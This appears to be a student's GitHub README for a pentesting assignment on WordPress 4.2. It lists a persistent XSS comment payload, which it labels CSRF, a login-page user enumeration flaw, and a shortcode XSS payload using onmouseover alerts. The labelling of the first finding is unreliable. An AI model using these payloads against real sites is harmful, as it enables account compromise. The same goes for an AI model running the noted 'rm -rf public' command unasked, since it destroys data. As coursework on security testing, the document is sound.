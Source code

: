 # Cybersecurity_Week_7-8
Pentesting for Wordpress 4.2 for Cybersecurity Week 7 &amp; 8 Assignment

## **1.Persisten CSRF**    
-In reply/comment post: 
  `<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px AAAAAAAAAAAA...[64 KB]..AAA'></a>`


Vulnerability: CSRF  
Version: 4.2  
Source:[Code](https://www.exploit-db.com/exploits/36844)  
![Persisten CSRF](https://github.com/atsui4688/Cybersecurity_Week_7-8/blob/master/Persisten%20CSRF.gif)  

## **2.User Enumeration**  
-At the login page, WordPress version 4.2 will notify you if a username exists when you attempt to login  
Vulnerability: User Enumeration  
Version: 4.2  
![User Enumeration](https://github.com/atsui4688/Cybersecurity_Week_7-8/blob/master/User%20Enumeration.gif)  

## **3.Authenticated Shortcode Tags XSS**  
-In a comment/reply: `<a href = "XSS" onmouseover=alert(1) rel="nofollow">CLICK ME!</a>`  
-Hover over the link in the comment.
  
Vulnerability: XSS  
Version: 4.2  
Source:[Code](https://github.com/WordPress/WordPress/commit/f72b21af23da6b6d54208e5c1d65ececdaa109c8)  
![Authenticated Shortcode Tags XSS](https://github.com/atsui4688/Cybersecurity_Week_78/blob/master/Authenticated%20Shortcode%20Tags%20XSS.gif)    

## **Notes**  
The `rm -rf public` command does not work on Windows 10 for me
